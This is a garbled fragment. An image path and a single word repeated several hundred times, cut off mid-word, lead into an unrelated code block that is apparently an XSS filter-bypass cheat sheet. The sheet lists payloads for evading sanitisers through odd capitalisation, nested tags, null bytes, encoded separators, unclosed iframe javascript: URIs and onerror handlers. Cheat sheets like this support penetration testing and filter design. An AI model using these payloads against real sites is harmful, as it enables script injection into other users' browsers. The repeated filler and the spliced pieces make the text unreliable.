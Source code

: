 vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhut
```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`
```